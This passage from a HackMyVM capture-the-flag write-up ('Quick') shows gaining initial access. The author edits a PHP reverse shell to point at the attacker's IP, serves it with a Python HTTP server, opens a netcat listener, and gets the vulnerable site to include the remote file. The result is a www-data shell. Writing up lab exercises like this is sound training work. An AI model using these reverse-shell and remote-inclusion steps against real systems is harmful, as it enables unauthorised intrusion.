 Let's copy the PHP webshell to our working directory and open it with Visual Code.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Quick]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php ./shell.php

┌──(emvee㉿kali)-[~/Documents/HMV/Quick]
└─$ code shell.php                                               
┏━(Message from Kali developers)
┃ code is not the binary you may be expecting.
┃ You are looking for \"code-oss\"
┃ Starting code-oss for you...
┗━

```

Next we should change the IP address to our attackers IP address.
![image](/assets/img/WriteUp/HackMyVM/Quick/Pasted image 20231216202547.png){: width="700" height="400" }


As soon as the file is saved we should start our own HTTP server with pyhton.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Quick]
└─$ ll
total 8
-rwxr-xr-x 1 emvee emvee 5491 Dec 16 20:24 shell.php

┌──(emvee㉿kali)-[~/Documents/HMV/Quick]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

In a new terminal we should start the netcat listener on port 1234.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Quick]
└─$ rlwrap nc -lvnp 1234
listening on [any] 1234 ...

```

## Initial access
Next we should change the URL to our own HTTP server and only specify the name of the file without extension since it is completed by the PHO website on the victim server.
![image](/assets/img/WriteUp/HackMyVM/Quick/Pasted image 20231216203105.png){: width="700" height="400" }

As soon as we hit enter the reverse (web)shell should have connected to our netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Quick]
└─$ rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.29] 55424
Linux quick 5.4.0-169-generic #187-Ubuntu SMP Thu Nov 23 14:52:28 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 19:30:43 up 22 min,  0 users,  load average: 0.00, 0.00, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
The connection was established. Let's find out who we are, what membership we have and on what machine we are working.
```
$ whoami;id;hostname;ip a; pwd
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
quick
```